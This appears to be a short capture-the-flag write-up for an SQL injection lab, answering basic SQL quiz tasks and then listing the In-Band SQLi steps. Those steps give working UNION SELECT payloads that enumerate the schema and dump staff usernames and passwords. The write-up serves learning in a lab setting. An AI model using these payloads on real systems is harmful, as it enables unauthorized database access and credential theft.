








## *Task 1*
>	- Structured Query Language
## *Task 2*
>	- DBMS
>	- Table
## *Task 3*
>	- SELECT
>	- UNION
>	- INSERT
## *Task 4*
>	- ;
## *In-Band SQLi*
>	- Using `'` to verify SQLi vulnerability.
>	- Getting number of columns using `UNION SELECT NULL` and adding nulls till the there is no error.
>	- Changing the id to a non existent article and then getting the database name using `UNION SELECT NULL,NULL,database()`.
>	- Getting the table names using `UNION SELECT NULL,NULL,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'`.
>	- Get column names from staff_users table using `UNION SELECT NULL,NULL,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'`.
>	- Get usernames and passwords using `UNION SELECT NULL,NULL,group_concat(username,':',password SEPARATOR ' ') FROM staff_users`.
>	- Answer the question and get the flag.
## *Blind SQLi*
>	- 